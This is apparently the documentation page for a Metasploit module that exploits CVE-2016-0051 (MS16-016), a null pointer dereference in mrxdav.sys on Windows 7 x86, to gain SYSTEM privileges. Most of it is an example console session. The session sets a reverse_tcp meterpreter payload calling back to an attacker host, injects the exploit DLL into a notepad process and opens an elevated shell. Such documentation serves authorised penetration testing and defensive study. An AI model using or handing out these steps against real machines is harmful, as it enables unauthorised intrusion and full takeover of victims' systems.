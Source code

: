 ## Intro

This module exploits a null pointer dereference vulnerability present in the mrxdav.sys kernel driver on Windows 7 x86.  The vulnerability is described by MS16-016 and CVE-2016-0051.  The module allows the users to spawn a new payload, such as meterpreter, on the target system with elevated privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the ```payload``` and ```session``` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > use exploits/windows/local/ms16_016_webdav
msf exploit(ms16_016_webdav) > set session 5
session => 5
msf exploit(ms16_016_webdav) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms16_016_webdav) > set lport 4567
lport => 4567
msf exploit(ms16_016_webdav) > set lhost 192.168.1.203
lhost => 192.168.1.203
msf exploit(ms16_016_webdav) > run

[*] Started reverse TCP handler on 192.168.1.203:4567
[*] Launching notepad to host the exploit...
[+] Process 3204 launched.
[*] Reflectively injecting the exploit DLL into 3204...
[*] Exploit injected ... injecting payload into 3204...
[*] Sending stage (957999 bytes) to 192.168.1.221
[*] Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.
[*] Meterpreter session 12 opened (192.168.1.203:4567 -> 192.168.1.221:49266) at 2016-07-05 22:07:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```